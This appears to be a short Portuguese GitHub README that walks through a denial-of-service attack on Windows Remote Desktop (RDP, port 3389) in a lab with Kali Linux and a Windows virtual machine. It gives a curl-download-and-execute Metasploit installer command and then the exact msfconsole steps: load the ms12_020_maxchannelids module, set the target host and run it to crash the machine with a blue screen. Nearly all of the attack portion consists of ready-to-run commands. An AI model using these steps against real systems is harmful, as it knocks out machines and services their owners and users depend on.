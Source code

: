 # Ataques_DoS_no_Windows_RDP

## Negação de Serviço 

- RDP é abreviação de Remote Desktop Protocol, opção de controle remoto para computadores windwos!

### O serviço de RDP pode ser configurado por Administradores de sistemna Windows para ser executado nas seguintes portas.

- TCP ( utilizando a porta 3389) ou
- UDP (utilizando a porta 3389)

## Para simular o ataque vamos precisar de um kali linux com metasploit instalado e um Windows em VM (Maquina virtual)

- Na mauqina que vai ser atacada tem que estar ativado o RDP, e preciosamos saber o IP desse dispositivo. 

- No kali Linux precisamos estar em root 

## intalação do Metasploit

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
 ```

1 comando

```bash
 msfconsole 
 ```

2 comando

```bash
search rdp
 ```

3 Comando

```bash
auxiliary/dos/windows/rdp/ms12_020_maxchannelids
 ```

4 Comando 
```bash
set rhosts (mais IP)
 ```

 5 Comando 
```bash
run
 ```

# após rodar criamos uma tela azul no Windows! 
